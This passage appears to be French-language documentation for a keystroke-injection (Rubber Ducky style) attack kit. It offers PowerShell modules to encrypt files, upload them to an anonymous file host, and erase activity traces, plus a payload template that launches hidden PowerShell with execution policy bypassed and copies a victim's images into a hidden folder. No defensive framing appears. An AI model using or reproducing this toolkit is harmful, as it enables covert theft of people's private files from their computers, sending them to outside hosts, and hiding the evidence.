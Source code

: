 ## Modules Optionnels Personnalisables

### 1. Module de Chiffrement

```powershell
function Encrypt-File($filePath, $password) {
    $encrypted = $filePath + ".enc"
    $key = [System.Text.Encoding]::UTF8.GetBytes($password.PadRight(32).Substring(0,32))
    
    # Chiffrement AES simple
    $aes = [System.Security.Cryptography.AesManaged]::new()
    $aes.Key = $key
    $aes.Mode = 'CBC'
    
    # [Code de chiffrement détaillé ici]
}
```

### 2. Module d'Upload Cloud

```powershell
function Upload-ToAnonymous($filePath) {
    # Upload vers service anonyme (file.io, etc.)
    try {
        $uri = "https://file.io"
        $response = Invoke-RestMethod -Uri $uri -Method Post -InFile $filePath
        return $response.link
    } catch {
        return $null
    }
}
```

### 3. Module de Nettoyage

```powershell
function Clear-Traces {
    # Effacement des traces d'activité
    Clear-History
    Remove-Item "$env:APPDATA\Microsoft\Windows\Recent\*" -Force -ErrorAction SilentlyContinue
    Clear-RecycleBin -Force -ErrorAction SilentlyContinue
}
```

## Templates de Payloads Personnalisés

### Template Minimaliste

```ducky
REM Payload Personnalisé - Extraction Simple
DEFAULT_DELAY 300

GUI r
DELAY 500
STRING powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command "& {
ENTER
STRING $path='$env:USERPROFILE\Desktop\.temp_extract';
STRING New-Item -ItemType Directory -Path $path -Force;
STRING Get-ChildItem '$env:USERPROFILE\Pictures' -Include '*.jpg','*.png' -Recurse |
STRING ForEach-Object { Copy-Item $_.FullName -Destination $path };
STRING }"
ENTER
```
